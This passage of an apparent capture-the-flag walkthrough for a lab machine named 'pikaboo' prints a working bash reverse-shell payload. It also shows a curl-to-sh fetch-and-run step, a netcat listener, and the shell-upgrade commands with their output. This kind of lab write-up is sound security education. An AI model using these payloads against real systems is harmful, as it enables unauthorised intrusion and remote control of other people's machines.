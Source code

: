 To gain a reverse shell we just create an `index.html` with a reverse shell in it.

`index.html`
```
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.14.11/7575 0>&1'
```

We serve this file over a python webserver and set up our listener on the port we specified in `index.html`.

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Now we can send a command to curl our webserver and pipe the result to `sh`, leading in a hit on our webserver followed by a connection from the target back to us.

[![burp_exec](/img/pikaboo/burp_exec.png)](/img/pikaboo/burp_exec.png)

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.44.70 - - [18/Jul/2021 01:30:10] "GET / HTTP/1.1" 200 -
```

We upgrade our reverse shell fix the terminal size and can pick up the user flag in the home directory of pwnmeow.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.44.70.
Ncat: Connection from 10.129.44.70:57152.
bash: cannot set terminal process group (670): Inappropriate ioctl for device
bash: no job control in this shell
www-data@pikaboo:/var/www/html/admin_staging$ python3 -c 'import pty;pty.spawn("/bin/bash")'
<ing$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@pikaboo:/var/www/html/admin_staging$ export TERM=xterm
export TERM=xterm
www-data@pikaboo:/var/www/html/admin_staging$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@pikaboo:/var/www/html/admin_staging$ stty rows 55 cols 236
```
